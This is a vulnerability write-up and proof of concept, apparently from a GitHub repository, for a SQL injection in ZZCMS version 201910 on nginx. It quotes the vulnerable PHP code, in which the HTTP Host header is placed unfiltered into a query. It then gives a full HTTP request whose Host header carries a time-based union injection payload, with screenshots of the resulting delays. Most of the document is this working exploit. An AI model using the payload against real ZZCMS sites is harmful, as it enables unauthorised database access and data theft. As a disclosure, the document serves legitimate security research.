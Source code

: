 ## ZZCMS sql injection in nginx server
## PoC by britzlieg
#### ZZCMS the 201910 version download page : 
http://www.zzcms.net/about/6.htm

#### zip installer:
http://www.zzcms.net/download/zzcms201910.zip

### vulnerability code:

in file "/zt/top.php", line 5


```php
<?php
//echo $_SERVER['REQUEST_URI'];
$editor=isset($_REQUEST['editor'])?$_REQUEST['editor']:'';
$editor=substr($_SERVER['HTTP_HOST'],0,strpos($_SERVER['HTTP_HOST'],'.'));//从二级域名中获取用户名
$rs=query("select * from zzcms_userdomain where domain='".$_SERVER['HTTP_HOST']."' and passed=1 and del=0");//从顶级级域名中获取用户名
$row=num_rows($rs);
if (!$row){
	$row=fetch_array($rs);
	$editor=$row["username"];
}
$id=isset($_REQUEST['id'])?$_REQUEST['id']:0;
checkid($id,1);
...
```

in line 5,developer use `$_SERVER['HTTP_HOST']` in sql code without a filter, and this variable can be controled by attacker in nginx server. All page include `/zt/top.php` will be affected, here is an example named `/zt/news.php`.

```php
<?php
include("../inc/conn.php");
include("../inc/fy.php");
include("top.php");
include("bottom.php");
include("left.php");
...
```

#### POC:
```http
GET /zt/news.php?id=1&editor=cad HTTP/1.1
Host: 127.0.0.1:8211' union select sleep(8),1,2,3,4#-- '
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://127.0.0.1:8211
DNT: 1
Connection: close
Referer: http://127.0.0.1:8211/user/job.php?do=add
Cookie: bigclassid=0; province=%E5%8C%97%E4%BA%AC; city=%E5%B8%82%E8%BE%96%E5%8E%BF; __tins__713776=%7B%22sid%22%3A%201594217719660%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201594220164112%7D; __51cke__=; __51laig__=14; bdshare_firstime=1594189355036; PHPSESSID=o78er4gbaan24nhv4a2oldnf18; UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6; admin=admin; pass=21232f297a57a5a743894a0e4a801fc3
Upgrade-Insecure-Requests: 1

jobname=1&sm=1&province=%E5%8C%97%E4%BA%AC&city=%E5%B8%82%E8%BE%96%E5%8C%BA&xiancheng=%E4%B8%9C%E5%9F%8E%E5%8C%BA&action=add&Submit=%E5%A1%AB%E5%A5%BD%E4%BA%86%EF%BC%8C%E5%8F%91%E5%B8%83

```


#### jinject code
![](res/zzcms201910/a.png)

#### sleep(8)
![](res/zzcms201910/1.png)

#### sleep(1)
![](res/zzcms201910/2.png)